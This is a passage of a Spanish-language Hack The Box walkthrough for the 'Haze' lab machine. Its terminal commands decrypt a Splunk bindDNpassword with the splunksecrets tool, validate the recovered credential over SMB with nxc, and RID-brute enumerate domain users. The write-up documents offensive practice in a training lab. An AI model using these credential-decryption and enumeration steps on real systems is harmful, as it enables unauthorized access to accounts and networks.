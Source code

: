 ```terminal
/home/kali/Documents/htb/machines/haze:-$ echo 'NfKeJCdFGKUQUqyQmnX/WM9xMn5uVF32qyiofYPHkEOGcpMsEN.lRPooJnBdEL5Gh2wm12jKEytQoxsAYA5mReU9.h0SYEwpFMDyyAuTqhnba9P2Kul0dyBizLpq6Nq5qiCTBK3UM516vzArIkZvWQLk3Bqm1YylhEfdUvaw1ngVqR1oRtg54qf4jG0X16hNDhXokoyvgb44lWcH33FrMXxMvzFKd5W3TaAUisO6rnN0xqB7cHbofaA1YV9vgD' > secret.txt
```

---
### Brute Force

Con el archivo server.conf en mano, el siguiente paso consiste en utilizar la herramienta [HurricaneLabs-splunksecrets](https://github.com/HurricaneLabs/splunksecrets) para descifrar el valor de `bindDNpassword`. Esto permite recuperar la contraseña en texto plano asociada a la cuenta de Paul Taylor, exponiendo sus credenciales <a id="insufficiently-protected-credentials" href="#cwe-522" class="cwe-ref">(CWE-522)</a>.

```terminal
(venv)-/home/kali/Documents/htb/machines/haze:-$ splunksecrets splunk-decrypt -S secret.txt 
Ciphertext: $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
Ld@p_Auth_Sp1unk@2k24
```

---
### Account Discovery

El resultado expone la contraseña `Ld@p_Auth_Sp1unk@2k24`, asociada al usuario `Paul Taylor`. Ahora puedo inicia la fase de enumeración de servicios internos del Domain Controller.

```terminal
/home/kali/Documents/htb/machines/haze:-$ nxc smb 10.10.11.61 -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24'
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24
```

---

Comienzo con una enumeración para identificar usuarios válidos dentro del dominio `haze.htb`.

```terminal
/home/kali/Documents/htb/machines/haze:-$ nxc smb 10.10.11.61 -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24' --rid-brute | grep SidTypeUser
SMB                      10.10.11.61     445    DC01             500: HAZE\Administrator (SidTypeUser)
SMB                      10.10.11.61     445    DC01             501: HAZE\Guest (SidTypeUser)
SMB                      10.10.11.61     445    DC01             502: HAZE\krbtgt (SidTypeUser)
SMB                      10.10.11.61     445    DC01             1000: HAZE\DC01$ (SidTypeUser)
SMB                      10.10.11.61     445    DC01             1103: HAZE\paul.taylor (SidTypeUser)
SMB                      10.10.11.61     445    DC01             1104: HAZE\mark.adams (SidTypeUser)
SMB                      10.10.11.61     445    DC01             1105: HAZE\edward.martin (SidTypeUser)
SMB                      10.10.11.61     445    DC01             1106: HAZE\alexander.green (SidTypeUser)
SMB                      10.10.11.61     445    DC01             1111: HAZE\Haze-IT-Backup$ (SidTypeUser)
```
